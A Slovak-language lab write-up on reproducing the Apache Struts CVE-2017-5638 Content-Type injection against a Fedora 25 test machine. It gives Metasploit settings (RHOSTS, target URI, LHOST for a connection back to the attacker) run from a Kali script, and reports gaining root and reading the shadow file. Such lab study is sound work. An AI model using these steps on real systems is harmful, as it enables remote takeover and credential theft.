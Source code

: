 # Otestovanie zraniteľnosti Struts na distribúciu Fedora 25

Zraniteľnosť CVE-2017-5638 sa týkala webového aplikačného rámca Struts, ktorý slúži na vytváranie webových 
aplikácií v programovacom jazyku Java. Jednalo sa o verzie rámca Struts od 2.3.5 do 2.3.31 a od 2.5 
po 2.5.10. Rámec Struts bol zraniteľný voči útoku remote command injection, kvôli nesprávnemu spracovaniu 
hlavičky  Content-Type v požiadavke HTTP, čo umožňovalo vykonanie príkazov pod oprávneniami webového servera. 

Zraniteľnosť vznikla kvôli analyzátoru Jakarta Multipart, ktorý slúži na odosielanie súborov. 
Ak hodnota v hlavičke Content-Type nebola platná, čiže nezodpovedala očakávanému platnému typu, 
vyhodí sa výnimka, ktorá sa následne použije na zobrazenie chybovej správy používateľovi. V tomto 
prípade môžeme nastaviť hlavičku Content-Type na výraz v jazyku OGNL. Takto bolo možné spustiť OGNL príkazy,
ktoré následne spustili systémové volania.

## Konfigurácia distribúcie Fedora

Pre vytvorenie zraniteľného systému sme postupovali podľa návodu 
*[Exploiting Apache Struts with CVE-2017-5638](https://samsclass.info/124/proj14/p9xstruts.htm)*. Podľa návodu sme
nainštalovali webový server Apache Tomcat a Maven. Na záver sme na server vložili zraniteľný rámec Struts.

## Konfigurácia Kali Linux 

Pre zaútočenie sme vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie Kali. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.32` a cesta `set targeturi /struts2_2.3.15.1-showcase/showcase.action`, čo nám nastaví cestu k
zraniteľnej aplikácii Struts. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.33` a spustiť útok. 

Útok prebehne úspešne, dokonca dostaneme privilégiá root, čiže môžeme čítať súbor shadow.
